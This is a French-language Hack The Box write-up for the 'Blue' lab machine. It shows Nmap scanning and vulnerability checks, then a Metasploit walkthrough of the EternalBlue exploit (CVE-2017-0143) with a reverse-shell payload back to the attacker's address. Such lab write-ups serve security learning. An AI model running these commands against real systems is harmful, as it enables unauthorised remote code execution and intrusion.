

# Synopsis

Selon Hack The Box (HTB), Blue est l'une des machines les plus simples à résoudre sur leur plateforme. Cependant, elle démontre à quel point l'exploit EternalBlue, utilisée dans plusieurs ransomware, peut être critique.

# Enumération

## Recherche des ports disponibles
On commence par rechercher les ports disponibles avec l'outil Nmap :

```shell
sudo nmap -Pn -T4 -sV 10.10.10.40 -o/-oX/-oG <nomfichier>.format
```
Il est recommandé d'utiliser un format de sortie facilement exploitable pour le scripting, bien que cela ne soit pas nécessaire ici, car nous utiliserons **Metasploit** pour l'exploitation.


Le résultat de cette commande est le suivant :



Dans notre recherche, nous trouvons que le port 445 pourrait être vulnérable à EternalBlue, une vulnérabilité exploitant le protocole NTtrans2 utilisé par SMBv1 en cas d'un message trop longue dans le BufferOverflow.

Cette vulnérabilité permet à un attaquant d'exécuter du code malveillant à distance, et a été utilisée dans des attaques comme celle du ransomware WannaCry.

Pour confirmer cette vulnérabilité, on peut utiliser la commande suivante :

```shell
sudo nmap -T4 -sV --script vuln 10.10.10.40
```
Et on confirme le resultat : 


# Exploitation

Pour exploiter cette vulnérabilité, on aura besoin de **Metasploit**, un outil conçu pour fournir des informations sur diverses vulnérabilités et exécuter des exploits de manière automatisée.

## Recherche de la vulnérabilité avec Metasploit

On lance Metasploit et faisons la recherche de la vulnérabilité identifiée par Nmap :

```shell
sudo msfconsole
search CVE-2017-0143
```


Nous choisissons l'option 0 et affichons les payloads disponibles pour EternalBlue :

```shell
use 0
show payloads
```
On sélection le payload **windows/x64/shell_reverse_tcp** :

```shell
set payload windows/x64/shell_reverse_tcp
```
## Configuration du payload

Nous devons configurer l'IP de la victime (RHOST) et notre propre IP (LHOST) :


```shell
set RHOST 10.10.10.40  # IP de la machine victime
set LHOST <Votre IP>   # Remplacez <Votre IP> par votre adresse IP
run
```

# Elévation de « privilèges »

Pour l'élévation de privilèges, il suffit de naviguer dans le bureau de chaque utilisateur et de trouver leur flag avec la commande **type**, similaire à **cat** sur Linux.

